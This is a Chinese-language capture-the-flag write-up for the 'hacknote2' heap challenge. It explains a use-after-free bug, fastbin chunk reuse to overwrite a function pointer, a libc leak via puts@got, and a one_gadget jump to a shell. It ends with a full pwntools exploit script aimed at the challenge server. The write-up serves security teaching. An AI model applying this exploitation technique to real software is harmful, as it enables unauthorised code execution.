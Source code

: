 ## hacknote2
### solution
本題原始碼中free後沒有沒有將pointer設為NULL，因此有可以使用的Use after free漏洞。
```c
if(notelist[idx]){
	free(notelist[idx]->content);
	free(notelist[idx]);
	puts("Success");
}
```

而note的結構如下
```c
struct note {
	void (*printnote)();
	char *content ;
};
```
大小為16bytes，其中第一個欄位是function pointer，overwrite後可以控制rip，而第二個欄位是char pointer，若是我們不去更動`printnote`，則可以改寫此處來read arbitrary memory。

本題初步來看沒辦法有任意寫入，因此比較可能的作法為使用`content` leak出libc，再複寫`printnote`跳到libc中可用的gadget。

當在`add_note`時一共會`malloc`兩次，第一次固定16bytes
，allocate一個`struct note`放到notelist中，第二次allocate `note->content`則是可指定大小。

接著，本題note最大數量為5，以global variable `count`紀錄當前note數量，但因為`del_note()`時並不會將`count`遞減，因此最多只能`add_note()`五次。

因此若是要overwrite一次，則要先`add_note`兩次，大小不能為16，再依序`del_note`，接著再次`add_note`指定大小為16，第一次`malloc struct note`(16bytes)因為fastbin是LIFO，會拿到第二次`add_note`的chunk，而第二次`malloc content`(16bytes)就會拿到原本第一次`add_note`的chunk。
```c
notelist[2] == notelist[1]
notelist[2]->content == notelist[0]
```

本題中我們需要overwrite兩次，第一次leak libc，第二次控制rip。
我們首先`add_note`二次，再依序delete，第一次overwrite時，payload前8bytes保持原本的`print_note_content`，後8bytes送`puts@got`，結果為：
```c
notelist[2] == notelist[1]
notelist[2]->content == notelist[0]
notelist[0]->print_note == print_note_content
notelist[0]->content == puts@got
```
接著我們print `notelist[0]`即可leak出`puts@got`，此時要再送一次payload，而fastbin中已經沒有chunk，因此要先把剛剛allocate的`notelist[2]`再次free掉，之後就會有兩塊16bytes的chunk(`notelist[0]`,`notelist[1]`)，此時再`add_note`一次則會依序拿到`notelist[1]`和`notelist[0]`，將payload寫為要跳的target位址即可，結果如下：
```c
notelist[3] == notelist[2] == notelist[1]
notelist[3]->content == notelist[0]
notelist[0]->print_note == target
```
此時print `notelist[0]`即可jump到target。

最後則是考慮target，由於沒有漏洞能寫GOT，也無法給system參數，因此這裡使用了david942j/one_gadget工具來從libc找能用的gadget，結果共有3個相依於rsp的one gadget
```
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL
0xf0274	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
0xf1117	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
使用gdb簡易測試後可以發現剛好呼叫的時候`[rsp+0x50], [rsp+0x70]`都會是0，因此這邊選了`0xf0274`的gadget來使用，最後跳過去即可拿到shell

### script
```python
#!/usr/bin/env python3
from pwn import *

context(arch="amd64")

#r = process("hacknote2")
r = remote("csie.ctf.tw", 10139)
binary = ELF("hacknote2")
libc = ELF("libc.so.6")
one_gadget = 0xf0274 # execve("/bin/sh", rsp+0x50, environ)

def add_note(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.send(content)

def del_note(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def print_note(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

# leak libc
add_note(50, "aaaaa")
add_note(50, "aaaaa")
del_note(0)
del_note(1)
# will write to note 0
add_note(16, p64(binary.symbols[b'print_note_content']) + p64(binary.got[b'puts']))

print_note(0)
puts = u64(r.recvuntil('\n', drop=True).ljust(8, b'\x00'))
del_note(2)

# jump to one_gadget
libc_base = puts - libc.symbols[b'puts']
# will write to note 0
add_note(16, p64(libc_base + one_gadget))

print_note(0)

r.interactive()
```
